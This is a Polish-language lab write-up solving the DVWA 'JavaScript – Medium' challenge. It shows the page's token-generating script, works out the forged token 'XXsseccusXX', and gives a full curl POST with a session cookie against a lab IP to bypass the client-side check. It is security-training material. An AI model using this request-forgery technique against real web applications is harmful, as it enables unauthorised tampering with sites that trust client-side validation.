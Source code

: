 # Java Script
## Opis techniki
<blockquote> JavaScript pozwala na uruchamianie skryptów w przeglądarce użytkownika. Jest jednocześnie w pełni dostępny dla użytkownika do wglądu. Jeśli nie zastosowano obfuskacji, logika kodu może zostać odczytana i zmodyfikowana. Z tego powodu bezpieczne tworzenie aplikacji webowych wymaga walidacji po stronie serwera.
</blockquote>

## DVWA labs

- [DVWA JavaScript #1 - Medium](#dvwa-javascript-1---medium)

<br/>

## DVWA JavaScript #1 - Medium
Cel: Udane wysłanie słowa 'success'. 

Przy wysłaniu zapytania uruchamiany jest kod JS, który generuje 'token'. Prawidłowa wartość tokenu, która umożliwia wysłanie zapytania to palindrom wybranego tekstu z poprzedzającym i następującym 'XX'. Dla 'success' ta wartość to 'XXsseccusXX', ją podmieniamy w wysyłanym zapytaniu. Efektem jest poprawne przekazanie tekstu.
#### Kod źródłowy `PHP` 

```php

?php
$page[ 'body' ] .= <<<EOF
<script src="/vulnerabilities/javascript/source/medium.js"></script>
EOF;
?>

```


#### Kod źródłowy `Java Script` 

```javascript
 function do_something(e) {
  for (var t = '', n = e.length - 1; n >= 0; n--) t += e[n];
  return t
}
setTimeout(function () {
  do_elsesomething('XX')
}, 300);
function do_elsesomething(e) {
  document.getElementById('token').value = do_something(e + document.getElementById('phrase').value + 'XX')
}


```
#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.114.16' -H $'Content-Length: 45' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.114.16' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.114.16/vulnerabilities/javascript/' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'security=medium; PHPSESSID=ncmebj2e77vmjisfts0d3p9ke3; security=medium' \
    --data-binary $'token=XXsseccusXX&phrase=success&send=Submit' \
    $'http://10.10.114.16/vulnerabilities/javascript/'
```


#### Efekt działania skryptu:
![image](https://github.com/Jswierczynsk/sandbox/assets/133172137/4b23ce1a-cdee-4433-bb7e-216f234d82ff)

Tekst został poprawnie przekazany.
<br/>
